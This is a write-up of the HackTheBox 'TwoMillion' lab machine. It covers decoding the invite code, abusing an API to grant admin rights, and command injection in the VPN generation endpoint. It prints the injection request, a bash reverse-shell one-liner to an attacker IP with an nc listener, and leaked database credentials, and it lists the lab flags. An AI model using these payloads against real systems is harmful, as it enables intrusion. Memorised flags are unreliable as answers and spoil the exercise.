



# Given

TwoMillion is an Easy difficulty Linux box that was released to celebrate reaching 2 million users on HackTheBox. The box features an old version of the HackTheBox platform that includes the old hackable invite code. After hacking the invite code an account can be created on the platform. The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator. With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell. An .env file is found to contain database credentials and owed to password re-use the attackers can login as user admin on the box. The system kernel is found to be outdated and CVE-2023-0386 can be used to gain a root shell.

## ip/scope: 10.10.11.221

# Steps

## Initial Enumeration

- Nmap scan `nmap -sCV -T3 -p- 10.10.11.221 -oN ./enum/nmap.out`
    - There are two ports open: TCP 22 (SSH) and TCP 80 (HTTP)
    - This is a Linux based target.
    - Domain is `2million.htb`
- Added domain to the `/etc/hosts` file as a good practice. This makes it easier when browsing the site as well.
- Looking at the site on the browser shows an older HTB site, and a challenge to be able to sign up.
- Did a feroxbuster directory enumeration, as well as a fuzzing test for other endpoints. Only found `api/v1/invite` and `api/v1/register`
- Looking at the javascript code through the site shows that an invite code must be input to the site in order for the user to register.
- There was an interesting bit of code at the bottom of the `inviteapi.min.js` code. Its the structure for various endpoints.
    - One of particular interest was `makeInviteCode()`
    - Ran this code on the web console while intercepting the api calls with Burpsuite. This sends a post request to `/api/v1/invite/how/to/generate` and that returns an encoded invite code.
- Encoding on the invite code is ROT13. Run this through cyberchef, to get the decoded message.
- Use cURL to make a POST request to the endpoint specified, and it returns an invite code.
- The invite code ends with an `=` sign which is characteristic of Base64 encoding. So run it through cyberchef to get the decoded invite code.
- Putting in the invite code gets us to the registration page, where we can give it some random un/email/pw to log in to the dashboard.
- Going through the links on the dashboard, we get to `Access` which is the page to setup the vpn got HTB
    - Allows us to download an `ovpn` file
- The `ovpn` file itself isn’t much, and there’s nothing else on the site that gets me a way in. Time to look at the API endpoints to see if I can find more.
- The idea is that if you hit the api endpoint root, you should get a list of the endpoints that can be used
    - So `curl -X GET <http://2million.htb/api/v1> -v` didn’t have a response, which was odd to me, so I used Burp.
    - Using Burpsuite gives the endpoint listing
- We focus on the Admin endpoints:
    - Checking the `GET request /api/vi/admin/auth` returns false, meaning our account isn’t an admin account. Meaning we can’t access the other api endpoints without erroring out as we’re not admin. So we have to elevate our account here.
    - `"PUT":{"\\/api\\/v1\\/admin\\/settings\\/update":"Update user settings"}}}}` The PUT request to update user settings seems like it could promote an account. But when I try it without any parameters, there is an “invalid content type” error.
        - Try it again, but this time adding the `Content-Type: application/json` header, and now it says I’m missing an `email` parameter.
        - Adding in the required parameter makes the response change to missing an `is_admin` parameter.
    - Send the complete request to the endpoint shows a successful outcome, and we’re now admin.

## Initial Foothold

- The only other endpoint here is the one that generates vpn files for users.
    
    - That requires entering the username of the intended user, and a script on the backend that creates the `ovpn` file.
    - Creating a VPN file likely involves interaction with shell script given how the username is dynamically inserted inside, and how using CA cert validity is a year, and also dynamically generated.
- Command injection would be a good test for low hanging fruit

    ```scheme
    POST /api/v1/admin/vpn/generate HTTP/1.1
    Host: 2million.htb
    Accept-Language: en-US,en;q=0.9
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: <http://2million.htb/home/access>
    Accept-Encoding: gzip, deflate, br
    Cookie: PHPSESSID=0td7rjunb5bg86qc1qm82l3bjk
    Content-Type: application/json
    Connection: keep-alive
    Content-Length: 22
    
    {
    "username":"0ni; whoami #"
    }
    ```

    - Try adding a `;` after the username, and then a command. I added in a `#` to comment out any further code running after this.
    - This returns `www-data` meaning the endpoint is vulnerable to command injection.
- We could run a bash script to establish a reverse shell and see how that goes. There’s no need to URL encode, since this goes in as a JSON string
    
    - payload: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/4444 0>&1'`
    - listener: `nc -lnvp 4444`

## Local Enumeration

- Looked for SUIDs, looked at running processes, and found nothing special.
- I used the `su admin` method to login as the admin user. And that meant it took me a while to root around the box till I found something in the `/mail` directory.
    - If I had ssh-ed in as admin, I’d have noticed a message about having mail.

## Privilege Escalation / Lateral Movement

- There’s a mention of a kernel cve at `OverlayFS / FUSE`
    
- Check our machine’s kernel version to help us narrow down a CVE in case there are many

    ```bash
    Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
    ```

    - The date on this kernel version means we’ve got to find a CVE that was patched later than `Fri Sep 23 2022`

# Findings

Anything interesting inside?

- Data object returned after running `makeInviteCode()`

```json
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \\/ncv\\/i1\\/vaivgr\\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

- Decoded invite code message

```json
In order to generate the invite code, make a POST request to \\/api\\/v1\\/invite\\/generate
```

- cURL returned invite code

```bash
┌──(shaco㉿kali)-[~/Desktop/HTB/htb_labs/twomillion]
└─$ curl -X POST <http://2million.htb/api/v1/invite/generate>    
{"0":200,"success":1,"data":{"code":"NjNUN0wtNFQ5OTktRU9YRUItVVYzNzA=","format":"encoded"}}
```

- Base64 decoded invite code

```bash
63T7L-4T999-EOXEB-UV370
```

- API route listing

```json
{"v1":{"user":{"GET":{"\\/api\\/v1":"Route List","\\/api\\/v1\\/invite\\/how\\/to\\/generate":"Instructions on invite code generation","\\/api\\/v1\\/invite\\/generate":"Generate invite code","\\/api\\/v1\\/invite\\/verify":"Verify invite code","\\/api\\/v1\\/user\\/auth":"Check if user is authenticated","\\/api\\/v1\\/user\\/vpn\\/generate":"Generate a new VPN configuration","\\/api\\/v1\\/user\\/vpn\\/regenerate":"Regenerate VPN configuration","\\/api\\/v1\\/user\\/vpn\\/download":"Download OVPN file"},"POST":{"\\/api\\/v1\\/user\\/register":"Register a new user","\\/api\\/v1\\/user\\/login":"Login with existing user"}},"admin":{"GET":{"\\/api\\/v1\\/admin\\/auth":"Check if user is admin"},"POST":{"\\/api\\/v1\\/admin\\/vpn\\/generate":"Generate VPN for specific user"},"PUT":{"\\/api\\/v1\\/admin\\/settings\\/update":"Update user settings"}}}}
```

- Database creds

```bash
www-data@2million:~/html$ find .env
.env
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

- Note about mail

```bash
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

# Creds

DB_USERNAME=admin DB_PASSWORD=SuperDuperPass123

# Flags

- User: f6ef5c82ad520a98266575278c041096
- Root: ed86315424a3247319b5423ea2af82ed

# Proof







# Bonus

```bash
{"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
```